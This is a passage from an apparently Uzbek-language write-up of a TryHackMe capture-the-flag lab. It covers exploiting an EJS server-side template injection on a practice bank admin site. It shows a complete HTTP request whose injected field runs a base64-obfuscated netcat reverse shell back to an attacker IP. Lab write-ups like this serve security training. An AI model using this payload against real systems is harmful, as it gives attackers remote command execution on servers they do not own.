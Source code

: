 Hm....

**EJS Server-Side Template Injection (SSTI)**ga nisbatan himoyaga ega...

Izlanib ko'rish kerak. Reverse shell hosil qilish uchun.

Topgan ma'lumotim: https://eslam.io/posts/ejs-server-side-template-injection-rce/

![](https://raw.githubusercontent.com/akhatkulov/Write-Ups/refs/heads/main/TryHackme/Pictures/whiterose_9.jpg)

Hayriyat)

SSTI bo'yicha yaxshigina izlanishlardan so'ng...

So'rov

```
POST /settings HTTP/1.1
Host: admin.cyprusbank.thm
Content-Length: 211
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://admin.cyprusbank.thm
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://admin.cyprusbank.thm/settings
Accept-Encoding: gzip, deflate, br
Cookie: connect.sid=s%3Ai--5w0qKm2LkWSN0YEsDvZI5lYwgg7Xd.7s5hgPqRgn1lEg2O9WMVzN59cLUFjdvKmmeeJxTiP0k
Connection: keep-alive

name=a&passord=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC44LjI0LjEzNSA0NDQ0IC1lIC9iaW4vYmFzaA== | base64 -d | bash"');//
```

